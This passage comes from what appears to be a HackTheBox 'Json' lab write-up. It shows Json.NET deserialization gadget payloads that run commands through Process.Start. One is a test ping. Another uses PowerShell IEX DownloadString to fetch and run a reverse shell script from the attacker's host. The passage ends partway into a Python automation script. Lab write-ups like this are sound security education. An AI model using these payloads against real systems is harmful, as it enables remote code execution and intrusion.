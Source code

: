 ```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c ping 10.10.14.20']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

We decode, and test it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-17-HackTheBox-Json/2021-09-17-HackTheBox-Json%2008:53:44.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-17-HackTheBox-Json/2021-09-17-HackTheBox-Json%2008:54:08.png)

It's working, now let's get a reverse and automated shell on this box

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.20/rev.ps1')']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

# Inetsrv Auto Shell

Let's automate our reverse shell with a python script

As always, we will use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
```
